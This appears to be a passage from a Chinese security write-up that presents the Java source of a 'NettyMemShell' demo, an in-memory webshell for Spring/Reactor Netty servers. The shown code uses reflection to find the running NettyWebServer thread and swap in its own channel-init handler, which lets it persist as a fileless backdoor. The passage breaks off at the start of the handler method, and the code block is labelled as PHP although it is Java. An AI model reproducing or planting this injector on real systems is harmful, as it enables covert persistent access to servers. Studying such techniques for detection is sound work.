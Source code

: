 整体的NettyMemShell的Demo如下：

```php
import io.netty.buffer.Unpooled;
import io.netty.handler.codec.http.*;
import io.netty.util.CharsetUtil;
import reactor.netty.ChannelPipelineConfigurer;
import reactor.netty.ConnectionObserver;

import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;
import java.net.SocketAddress;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.HashMap;
import java.util.Map;

import io.netty.channel.Channel;
import io.netty.channel.ChannelDuplexHandler;
import io.netty.channel.ChannelHandlerContext;
import io.netty.channel.ChannelPipeline;

public class NettyMemshell extends ChannelDuplexHandler implements ChannelPipelineConfigurer {
    String result = "";
    public static String doInject() {
        String msg = "inject-start";

        try {
            Method getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Object threads = getThreads.invoke((Object)null);

            for(int i = 0; i < Array.getLength(threads); ++i) {
                Object thread = Array.get(threads, i);
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                    Field _val$disposableServer = thread.getClass().getDeclaredField("val$disposableServer");
                    _val$disposableServer.setAccessible(true);
                    Object val$disposableServer = _val$disposableServer.get(thread);
                    Field _config = val$disposableServer.getClass().getSuperclass().getDeclaredField("config");
                    _config.setAccessible(true);
                    Object config = _config.get(val$disposableServer);
                    Field _doOnChannelInit = config.getClass().getSuperclass().getSuperclass().getDeclaredField("doOnChannelInit");
                    _doOnChannelInit.setAccessible(true);
                    _doOnChannelInit.set(config, new NettyMemshell());
                    msg = "inject-success";
                }
            }
        } catch (Exception var10) {
            msg = "inject-error";
        }

        return msg;
    }

    public void onChannelInit(ConnectionObserver connectionObserver, Channel channel, SocketAddress socketAddress) {
        ChannelPipeline pipeline = channel.pipeline();
```